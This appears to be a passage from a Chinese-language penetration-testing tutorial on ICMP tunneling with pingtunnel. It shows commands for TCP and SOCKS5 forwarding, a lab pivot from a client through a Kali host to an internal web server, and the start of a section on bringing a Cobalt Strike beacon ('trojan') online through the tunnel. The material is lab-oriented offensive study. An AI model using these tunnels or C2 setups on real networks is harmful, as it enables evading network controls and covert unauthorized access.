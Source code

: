 **相关命令**

```shell
# 开启服务端
pringtunnel -type server
# 开启客户端
# tcp转发
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -t SERVER_IP:4455 -tcp 1
# socks5转发
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -sock5 1
```

**相关参数**

```shell
-key # password
-l # 本地的地址，发到这个端口的流量将转发到服务器
-s # 服务器的地址，流量将通过隧道转发到这个服务器
-t # 远端服务器转发的目的地址，流量将转发到这个地址
```

### 2.2. icmp 隧道访问 web

```mermaid
graph LR
A["win-client<br>192.168.11.127"]-->B["kali-server<br>192.168.11.128<br>192.168.22.128"]
B-->C["win-web<br>192.168.22.129"]
```

```shell
# win-client
pingtunnel -type client -l 127.0.0.1:1111 -s 192.168.11.128 -t 192.168.22.129:80 -tcp 1
# kali
pingtunnel -type server
```

### 2.3. icmp 隧道 CS 上线

```mermaid
flowchart LR
A["cs-client"]-->B["cs-server<br>192.168.22.128:2222"]
C["win<br>192.168.22.129"]
subgraph win
C["127.0.0.1:800"]-->D[192.168.22.129]
end
D-->B
```

**新建监听器**

- **监听器1** 用于生成木马，木马通过连接 127.0.0.1:800 上线
	![image.png](https://img.ghostliner.top/EKBEy0.png)
	
- **监听器2** 用于 cs 服务器监听，端口 2222
	![image.png](https://img.ghostliner.top/yJ8Fvz.png)

